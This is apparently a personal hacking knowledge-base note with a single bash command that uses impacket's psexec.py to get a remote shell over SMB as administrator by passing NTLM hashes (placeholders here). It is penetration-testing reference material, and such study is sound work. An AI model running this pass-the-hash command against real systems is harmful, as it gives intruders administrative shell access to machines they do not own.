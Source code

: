 # impacket psexec get remote shell over SMB with administrator account
```bash
psexec.py administrator@$IP -hashes abcd123abcd123abcd123abcd123abcd:abcd123abcd123abcd123abcd123abcd
```

# References
- [20221003150600](/zet/20221003150600/README.md) impacket
- ~/kb/hacking/commands/impacket-commands.md

Tags:
    #assorted #command #hacking #impacket
